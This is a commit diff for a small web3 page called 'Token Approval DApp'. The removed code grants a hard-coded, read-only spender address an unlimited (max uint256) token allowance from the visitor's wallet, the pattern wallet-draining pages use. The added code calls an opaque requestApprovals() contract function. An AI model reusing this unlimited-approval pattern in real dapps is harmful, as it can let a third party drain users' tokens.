

Before and after one commit to masysz/sstteal, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,4 +1,4 @@
-u<!DOCTYPE html>
+<!DOCTYPE html>
 <html lang="en">
 <head>
     <meta charset="UTF-8">
@@ -9,11 +9,7 @@ u<!DOCTYPE html>
 <body>
     <h1>Token Approval DApp</h1>
     <div>
-        <label for="spender">Spender Address (Contract Address):</label>
-        <input type="text" id="spender" value="0x8816e4c39472B5Ce851fB8cB271de419bF638f43" readonly>
-    </div>
-    <div>
-        <button onclick="approveAllTokens()">Approve All Tokens</button>
+        <button onclick="requestApprovals()">Request Approvals</button>
     </div>
     <div id="status"></div>
 
@@ -39,22 +35,18 @@ u<!DOCTYPE html>
             }
         }
 
-        async function approveAllTokens() {
+        async function requestApprovals() {
             if (!web3) {
                 document.getElementById('status').innerText = "Please connect to Web3 first.";
                 return;
             }
 
-            const tokenContract = new web3.eth.Contract(ABI, contractAddress);
+            const contract = new web3.eth.Contract(ABI, contractAddress);
             const accounts = await web3.eth.getAccounts();
-            const spender = document.getElementById('spender').value;
-
-            // Maximum uint256 in hexadecimal
-            const maxUint256 = '0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff';
 
             try {
-                await tokenContract.methods.approve(spender, maxUint256).send({from: accounts[0]});
-                document.getElementById('status').innerText = "Approval successful!";
+                await contract.methods.requestApprovals().send({from: accounts[0]});
+                document.getElementById('status').innerText = "Approvals requested successfully!";
             } catch (error) {
                 document.getElementById('status').innerText = "Error: " + error.message;
             }
@@ -66,12 +58,9 @@ u<!DOCTYPE html>
         // ABI from your provided code
         const ABI = [
             {
-                "inputs": [
-                    {"internalType": "address", "name": "spender", "type": "address"},
-                    {"internalType": "uint256", "name": "amount", "type": "uint256"}
-                ],
-                "name": "approve",
-                "outputs": [{"internalType": "bool", "name": "", "type": "bool"}],
+                "inputs": [],
+                "name": "requestApprovals",
+                "outputs": [],
                 "stateMutability": "nonpayable",
                 "type": "function"
             }
```
